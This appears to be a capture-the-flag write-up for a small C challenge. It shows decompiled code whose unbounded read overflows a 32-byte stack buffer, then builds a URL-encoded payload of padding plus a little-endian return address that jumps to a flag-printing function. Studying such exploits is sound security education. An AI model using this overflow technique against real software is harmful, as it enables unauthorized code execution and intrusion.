 ```c
undefined8 main(void)
{
  char text [32];
  
  memset(text,0,0x20);
  read_all_stdin(text);
  if (text[0] == '\0') {
    puts("What is your name?");
  }
  else {
    printf("Hello %s!\n",text);
  }
  return 0;
}
```

allocated 32 bytes for text, and reads with `read_all_stdin`

```c
void read_all_stdin(long name)
{
  int input;
  int counter;
  
  counter = 0;
  while( true ) { // bad exit condition?
    input = fgetc(stdin);
    if (input == -1) break; // only checks if no more input!
    *(undefined *)(name + counter) = (char)input; // pointer to next char
    counter = counter + 1;
  }
  return;
}
```

We can use this for buffer overflow

Print flag function

```c
void print_flags(void)
{
  char *__s;
  
  __s = getenv("FLAGS");
  puts(__s);

  exit(0);
}
```

At memory address `004006ee`

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

since this is 64 bit process we need 8 bytes for header

```
00 00 00 00 00 40 06 ee
```

Due to Endianness we need to reverse order of hex

```
ee 06 40 00 00 00 00 00
```

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA00000000004006ee
```

Since input on site encodes input we paste directly in url with already correct encoding

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%ee%06%40%00%00%00%00%00
```
